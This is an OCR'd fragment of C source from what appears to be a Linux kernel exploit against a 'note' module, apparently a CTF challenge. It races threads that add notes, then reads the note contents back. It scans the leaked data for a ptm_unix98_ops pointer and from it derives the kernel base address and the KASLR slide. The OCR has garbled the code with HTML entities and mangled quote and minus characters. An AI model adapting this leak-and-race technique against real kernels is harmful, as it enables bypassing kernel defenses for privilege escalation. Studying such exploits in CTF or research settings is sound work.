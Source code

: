     `}`

  `}`

  // puts(“[=] After noteedit:”);

  // debug_display_notes();

​

  for (int i = 0; i &lt; MAX_CATCHERS; i++) `{`

    if (pthread_create(&amp;thr, NULL, victim_thread_add, (void*)i)) `{`

      perror(“pthread_create”);

      exit(EXIT_FAILURE);

    `}`

  `}`

  for (int i = 0; i &lt; MAX_CATCHERS; i++) sem_post(&amp;add_go);

  // printf(“[+] noteadd thread launched, wait for 1 second.\n”);

  sleep(1);

  // puts(“[=] After noteadd:”);

  // debug_display_notes();

​

  uint64_t kernel_slide = 0;

  uint64_t kernel_base = 0;

  int victim_idx = 0;

  // probe

  for (int i = 0; i &lt; MAX_CATCHERS; i++) `{`

    printf(“[=] Note %d:\n”, i);

    read(fd, buffer, 0);

    hexdump(buffer, 0x60);

    uint64_t ops_ptr = *(uint64_t*)(buffer + 24);

    if ((ops_ptr &amp; 0xfff) == (kOffset_ptm_unix98_ops &amp; 0xfff)) `{`

      victim_idx = i;

      kernel_base = ops_ptr – kOffset_ptm_unix98_ops;

      kernel_slide = kernel_base – 0xFFFFFFFF81000000;

      break;

    `}`

  `}`
